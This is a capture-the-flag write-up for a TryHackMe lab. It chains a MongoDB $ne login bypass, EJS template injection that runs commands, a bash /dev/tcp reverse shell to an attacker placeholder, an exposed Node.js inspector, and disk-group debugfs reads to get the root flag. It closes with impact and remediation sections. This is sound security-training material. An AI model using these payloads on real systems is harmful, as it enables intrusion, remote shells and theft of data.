# Overview

**Target**:  [Do Not Disturb](https://tryhackme.com/room/hh-donotdisturb-84a45644)

**Difficulty:** Medium

<details>  
<summary>⚠️ Quick summary (spoiler)</summary>  
  
The objective of this challenge was to compromise the Byte Lotus Poolside Platform, obtain the user flag and ultimately escalate privileges to recover the root flag.
  
</details>

# Reconnaissance

The assessment began with a TCP port scan against the target host.

```bash
nmap -sV -sC -p- <MACHINE_IP>
```



The scan identified two exposed services:

* TCP/22 → SSH
* TCP/80 → HTTP using **Node.js** and the **Express** framework

Navigating to the web application revealed a login panel with no registration functionality or additional visible features.



Directory enumeration was then performed.

```bash
dirb http://<MACHINE_IP>
```

The scan identified two interesting endpoints:



The presence of a protected `/staff` endpoint suggested the existence of privileged functionality accessible only after successful authentication.

# Initial Access

As port scanner shown before, the backend was built using **Node.js** and the **Express** framework.

Applications developed with Express frequently interact with NoSQL databases such as MongoDB. When user input is incorporated into database queries without proper validation, operators such as `$ne`, `$gt` or `$regex` may be interpreted by the database instead of being treated as plain strings, leading to **NoSQL Injection** vulnerabilities capable of bypassing authentication mechanisms.

## NoSQL Injection

A login attempt was intercepted using Burp Suite.

Instead of sending regular username and password values, the request body was replaced with the following payload:

```
{ "username": { "$ne": "" }, "password": { "$ne": "" } }
```

The `$ne` operator instructs MongoDB to match any value that is **not equal** to the supplied operand.

If the backend constructs the authentication query directly from user-controlled input, the resulting query effectively becomes:

```
username != ""
password != ""
```

Since most user accounts satisfy these conditions, authentication succeeds without requiring valid credentials.

The application granted access to a privileged session and the previously restricted `/staff` endpoint became accessible.



## Server-Side Template Injection

The staff panel exposed a template editor intended to customize booking confirmations.

The default template was:

```
Dear <%= guest %>, your Byte Lotus cabana is confirmed.
```

Users could freely edit the template and preview the rendered output directly within the application.

The website confirmed the use of Embedded JavaScript via the label **'EJS - use `<%= guest %>` to personalise'**. With the template engine identified, the next step was verifying whether arbitrary code execution could be achieved through it.

The following payload confirmed the presence of **Server-Side Template Injection (SSTI)**:

```
<%= [].constructor.constructor("return process.mainModule.require('child_process').execSync('id').toString()")() %>
```

The server executed the command successfully and returned its output within the rendered page.

This confirmed full Remote Code Execution.



## User flag

Once arbitrary command execution had been achieved, reading the user flag required only executing:

```
<%= [].constructor.constructor("return process.mainModule.require('child_process').execSync('cat /home/<USER>/user.txt').toString()")() %>
```

The rendered response disclosed the user flag.



## Reverse shell

To facilitate further post-exploitation, the SSTI vulnerability was leveraged to execute a reverse shell.

```
<%= [].constructor.constructor("return process.mainModule.require('child_process').execSync('bash -c \"bash -i >& /dev/tcp/<ATTACKER_IP>/4444 0>&1\"').toString()")() %>
```

After starting a listener locally, the payload established an interactive shell.

The compromised account possessed limited privileges.



# Privilege Escalation

With shell access established, process enumeration revealed an interesting Node.js process:

```
/usr/bin/node --inspect=127.0.0.1:9229 processor.js
```

The process was running with the Node.js Inspector enabled on localhost.



Inspecting the application source revealed that `processor.js` implemented a simple telemetry service responsible for periodically collecting occupancy statistics.

Although its functionality appeared harmless, exposing the Node.js Inspector created a far more serious attack surface.

## Accessing the Debug Interface

Because the debugging interface listened only on `127.0.0.1`, it was inaccessible directly from the attacker's machine.

A reverse tunnel was established using **Chisel**, forwarding the local debugging port to the attacker's workstation.





Once the tunnel was active, the Node.js DevTools interface became accessible and arbitrary JavaScript could be executed inside the running process.

For example:

```
require('child_process').execSync('id').toString()
```

The command revealed that the telemetry process was executing under a different account.

More importantly, that account belonged to the **disk** group.



## Root flag

Membership in the **disk** group effectively grants unrestricted access to block devices, allowing raw filesystem access independently of traditional UNIX permissions.

To identify accessible devices, the following command was executed through the debugger:

```
require('child_process').execSync(
'find / -group disk 2>/dev/null'
).toString()
```



Among the returned entries appeared the primary filesystem device:

```
/dev/nvme0n1p1
```

Using `debugfs`, it was possible to read files directly from the filesystem image without requiring root privileges.

The root flag was recovered with:

```
require('child_process').execSync(
'debugfs -R "cat /root/root.txt" /dev/nvme0n1p1'
).toString()
```

The command successfully disclosed the contents of the root flag.



# Conclusion

This challenge highlights how attackers rarely rely on a single vulnerability. Instead, they combine multiple weaknesses to progressively increase their level of access.

A seemingly minor authentication flaw evolved into remote code execution through unsafe template rendering, while an exposed debugging interface provided the opportunity to pivot into a more privileged execution context. Ultimately, excessive operating system permissions completed the attack chain, allowing unrestricted access to sensitive filesystem data.

Perhaps the most important lesson is that security controls should not be evaluated in isolation. Each individual issue represented a manageable risk; together, they resulted in full system compromise.

# Real-World Impact

If encountered in a production environment, this attack chain could result in complete infrastructure compromise.

Potential consequences include:

- Authentication bypass without valid credentials.
- Unauthorized access to administrative functionality.
- Arbitrary command execution on the application server.
- Persistent remote shell access.
- Credential theft and sensitive data disclosure.
- Abuse of exposed debugging services.
- Full privilege escalation through overly permissive group memberships.
- Complete compromise of the underlying operating system.

# Remediation

The vulnerabilities demonstrated throughout this challenge can be mitigated through several security best practices:

- Validate and sanitize user input before constructing NoSQL queries.
- Use parameterized query builders or ORM libraries that prevent operator injection.
- Disable dangerous template evaluation for user-controlled content.
- Never render untrusted input as executable server-side templates.
- Disable the Node.js Inspector in production environments.
- Restrict debugging interfaces to development environments only.
- Apply the principle of least privilege to service accounts.
- Avoid assigning application users to privileged groups such as `disk`.
- Perform regular security reviews to identify chained attack paths before deployment.